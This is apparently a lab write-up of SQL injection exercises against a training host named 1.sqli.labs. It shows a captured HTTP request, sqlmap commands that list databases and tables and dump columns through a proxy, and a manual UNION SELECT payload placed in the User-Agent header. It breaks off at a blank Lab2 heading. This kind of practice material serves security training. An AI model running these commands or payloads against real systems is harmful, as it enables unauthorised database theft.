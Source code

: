 








### Lab1

using request in a file called req.txt with user-agent=*

```http
GET / HTTP/1.1
Host: 1.sqli.labs
User-Agent: *
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://info.sqli.labs/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```



sqlmap with a file

```bash
sqlmap -r req.txt  --proxy http://127.0.0.1:8080 

sqlmap -r req.txt  --proxy http://127.0.0.1:8080 --dbms=mysql --dbs

sqlmap -r req.txt  --proxy http://127.0.0.1:8080 --dbms=mysql -D 1sqlilabs --tables

sqlmap -r req.txt  --proxy http://127.0.0.1:8080 --dbms=mysql -D 1sqlilabs -T browsers --columns

sqlmap -r req.txt  --proxy http://127.0.0.1:8080 --dbms=mysql -D 1sqlilabs -T browsers -C browser --dump
```



sqlmap without using a file

```bash
sqlmap -u 'http://1.sqli.labs/' -p user-agent --random-agent --banner
```



manual

```bash
User-Agent: ' UNION SELECT user(); -- -
```





### Lab2
